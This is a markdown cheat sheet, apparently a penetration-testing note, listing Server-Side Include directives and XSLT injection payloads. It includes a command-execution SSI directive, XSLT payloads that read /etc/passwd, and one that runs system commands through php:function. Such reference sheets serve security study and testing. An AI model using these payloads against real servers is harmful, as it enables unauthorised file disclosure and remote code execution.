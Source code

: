 ﻿### **SSI Injection (Server-Side Includes)**

#### Directives

| Directive               | Example                                              |
| ----------------------- | ---------------------------------------------------- |
| Print variables         | `<!--#printenv -->`                                  |
| Change config           | `<!--#config errmsg="Error!" -->`                    |
| Print specific variable | `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` |
| Execute command         | `<!--#exec cmd="whoami" -->`                         |
| Include web file        | `<!--#include virtual="index.html" -->`              |
|                         |                                                      |
|                         |                                                      |


### **XSLT Injection**

#### Elements

|Element|Description|
|---|---|
|`<xsl:template>`|Defines a template for a specific XML path viaÂ `match`Â attribute.|
|`<xsl:value-of>`|Extracts the value of an XML node specified inÂ `select`.|
|`<xsl:for-each>`|Loops over XML nodes specified inÂ `select`.|
|`<xsl:sort>`|Sorts elements by a node (`select`) and order (`order`).|
|`<xsl:if>`|Tests conditions on a node viaÂ `test`Â attribute.|

#### Injection Payloads

| Type                       | Example                                                                                                                                                                                                                                                                                                                                   |
| -------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Information Disclosure** | `<xsl:value-of select="system-property('xsl:version')" />`  <br>`<xsl:value-of select="system-property('xsl:vendor')" />`  <br>`<xsl:value-of select="system-property('xsl:vendor-url')" />`  <br>`<xsl:value-of select="system-property('xsl:product-name')" />`  <br>`<xsl:value-of select="system-property('xsl:product-version')" />` |
| **LFI**                    | `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`  <br>`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`                                                                                                                                                                                        |
| **RCE**                    | `<xsl:value-of select="php:function('system','id')" />`                                                                                                                                                                                                                                                                                   |
|                            |                                                                                                                                                                                                                                                                                                                                           |
|                            |                                                                                                                                                                                                                                                                                                                                           |
